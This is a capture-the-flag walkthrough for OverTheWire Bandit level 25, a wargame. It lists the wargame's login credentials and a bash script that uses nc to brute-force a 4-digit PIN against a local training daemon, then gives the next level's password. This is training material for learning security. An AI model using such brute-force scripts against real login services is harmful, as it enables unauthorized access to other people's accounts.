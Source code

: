 # [Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Authentication Details

    Username : bandit24
    Password : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solution Steps

``` 
ssh bandit.labs.overthewire.org -p 2220 -l bandit24

echo '''
#!/bin/bash

ans="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000\n"

for i in {0001..9999}
do
    ans+="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i\n"
done

echo -e $ans | nc localhost 30002 | grep -E -v "Wrong|I am|Correct|Exiting"
''' >> /tmp/brute.sh

chmod +x /tmp/brute.sh

/tmp/brute.sh
```

## Password for next level

    p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d